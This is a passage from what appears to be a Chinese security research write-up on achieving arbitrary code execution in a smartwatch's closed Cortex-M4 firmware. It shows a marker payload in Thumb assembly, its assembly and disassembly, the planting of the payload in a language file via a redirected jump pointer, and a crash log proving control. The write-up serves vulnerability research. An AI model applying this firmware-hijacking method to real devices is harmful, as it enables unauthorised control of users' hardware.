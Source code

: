     mov r0, #0
    bx r0
    

注意一定要指定Thumb指令，因为Cortex-M4只会在Thumb模式下运行。代码的最后两行跳到了地址0x00000000，这样每次都会导致崩溃，因为ARM处理器会根据bxjump的指令地址最后的标志位选择使用ARM指令还是Thumb指令。现在最低位是0，所以我们使用的是ARM指令。而就像前面刚说的那样，ARM ortex-M4只支持Thumb，所以出错了。

我们可以用交叉编译器工具在一个非ARM Linux系统中解决这个问题。就像这样：

    
    
    #!bash
    $ arm-none-eabi-as -mcpu=cortex-m4 -o first.o first.s
    

这是编译好的代码，用objdump反编译：

    
    
    #!bash
    $ arm-linux-gnueabi-objdump -d first.o    
    
    first.o:     file format elf32-littlearm    
    
    Disassembly of section .text:
    00000000 <.text>:
       0:   f04f 0213   mov.w   r2, #19
       4:   f04f 0337   mov.w   r3, #55 ; 0x37
       8:   eb03 2102   add.w   r1, r3, r2, lsl #8
       c:   f04f 0000   mov.w   r0, #0
      10:   4700        bx  r0
    

接下来要做的，是把这个payload放到设备中。我们把这个放到德语文件，然后把用于jump指令的指针(第二个文件中的第四双字)指向它。

下面这张图片是在第二个文件（0x00810003）设置的所有内容：

![](http://static.wooyun.org//drops/20151205/2015120516072937506.jpg)

第四个双字很明显指向我们的payload，然后我把文件装载到了手表中，像之前那样通过选择语言执行跳转。在又一次崩溃之后，我们得到了这样的的崩溃日志（请注意第1、2、3行）：

    
    
    Crashlog - SW ver 1.8.42
     R0 = 0x00000000
     R1 = 0x00001337
     R2 = 0x00000013
     R3 = 0x00000037
     R12 = 0x00000000
     LR [R14] = 0x00441939 subroutine call return address
     PC [R15] = 0x00000000 program counter
     PSR = 0x20000000
     BFAR = 0xe000ed38
     CFSR = 0x00020000
     HFSR = 0x40000000
     DFSR = 0x00000000
     AFSR = 0x00000000
     Batt = 4192 mV
     stack hi = 0x000004d4
    

如上图所示，我们现在就可以在一个在物联网设备的封闭固件中进行任意的代码执行了！

